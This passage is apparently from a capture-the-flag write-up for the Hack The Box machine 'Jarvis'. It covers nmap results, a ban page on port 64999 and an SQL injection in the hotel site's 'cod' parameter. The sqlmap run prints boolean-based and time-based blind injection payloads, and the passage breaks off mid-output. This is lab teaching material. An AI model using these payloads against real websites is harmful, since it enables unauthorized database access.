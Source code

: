    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 12.80 seconds

# Web

## On port 64999

The page on the web service on port 64999 is only saying that we have been
banned for 90 seconds.

    :::text
    curl http://10.10.10.143:64999/
    Hey you have been banned for 90 seconds, don't be bad

## On port 80

The website is a "classical" hotel homepage.

![Jarvis homepage](/media/2019.10/jarvis_1.png)

We can checkout rooms. We notice that there is a `cod` GET parameter (in the
URL).
Moreover if we put a `-1` at the end of the URL we get to the previous room. For
instance the URL `http://10.10.10.143/room.php?cod=5-1` give us exactly the same
room as the `http://10.10.10.143/room.php?cod=4` URL. This is symptomatic of an
SQL injection.

![Jarvis room id 4](/media/2019.10/jarvis_2.png)

![Jarvis room id 5](/media/2019.10/jarvis_3.png)

![Jarvis room id 5-1](/media/2019.10/jarvis_4.png)

# Getting user

We launch `sqlmap` against the page, it confirm the SQL injection:

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1
    <SNIP>
    GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=5-1 AND 9103=9103

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: cod=5-1 AND (SELECT 1494 FROM (SELECT(SLEEP(5)))doUk)
